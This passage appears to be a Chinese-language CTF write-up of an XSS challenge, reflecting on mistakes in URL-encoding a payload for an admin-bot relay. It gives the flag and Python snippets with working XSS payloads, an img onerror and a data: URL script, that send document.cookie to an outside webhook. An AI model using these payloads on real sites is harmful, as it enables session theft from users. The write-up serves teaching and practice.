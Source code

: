 - ![image](https://hackmd.io/_uploads/HJrUq4ZUex.png)

- ![image](https://hackmd.io/_uploads/SyrudV-Llx.png)

- ![image](https://hackmd.io/_uploads/rk_69NZUlx.png)

- ![image](https://hackmd.io/_uploads/rkqF5EW8le.png)

- **flag🚩 :`NHNC{javascript:xssed!&xssed!=alert(/whale/)}`**

&emsp;

## <span class="red">心得</span>

1. **我在測試過程中遇到的第一個問題。我一開始把 name 直接接在最外層 url 和 nonce 中間，就像是底下這樣，但是這會導致在第一次送資料給 bot 時， name 這個 key 會直接被 dropped ，導致後續 name 是空的**
    ```python=
    payload_response = s.get(url = f'{url}/visit?url=...&name=...&nonce=...')
    ```
    - ![image](https://hackmd.io/_uploads/SyU9EV-8lg.png)
    - ![image](https://hackmd.io/_uploads/BJdxHSzLxg.png)

&emsp;

2. **經過第一個問題後，我知道要把 name 塞到給 bot 的 url 裡面了，像是：**

    ```python=
    payload = f'<img src=x onerror="location=`{webhook}/?c=`+btoa(document.cookie)">'

    relay_url = f'http://localhost:5000/?url={trigger}&name={payload}'
    encoded_relay_url = urllib.parse.quote(relay_url)

    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    ```
    - **結果我在 `webhook.site` 還是沒有發現 cookie ，回去檢查後端回顯(自己額外加的)才發現第二層 url 也要自己做一次 URL Encode**
    - ![image](https://hackmd.io/_uploads/ryzDw4-8el.png)
    ```python=
    payload = f'<img src=x onerror="location=`{webhook}/?c=`+btoa(document.cookie)">'
    encoded_payload = urllib.parse.quote(payload)

    relay_url = f'http://localhost:5000/?url={trigger}&name={encoded_payload}'
    encoded_relay_url = urllib.parse.quote(relay_url)

    payload_response = s.get(url = f'{url}/visit?url={encoded_relay_url}&nonce={nonce}')
    ```

&emsp;
    
3. **step 5 裡面的 payload 塞進 name 也可以動!!**

- `payload = f'data:text/html,<script>location="{webhook}/?c="+document.cookie</script>'`
    - **cookie 沒有做 base64 可能會在 decode 時被 browser 誤解**
    - ![image](https://hackmd.io/_uploads/ByDO_rGUxl.png)

- ```payload = f'<img src=x onerror="location=`{webhook}/?c=`+btoa(document.cookie)">'```
    - ![image](https://hackmd.io/_uploads/S1P4trfLge.png)
    - ![image](https://hackmd.io/_uploads/HJxUYHGLxx.png)
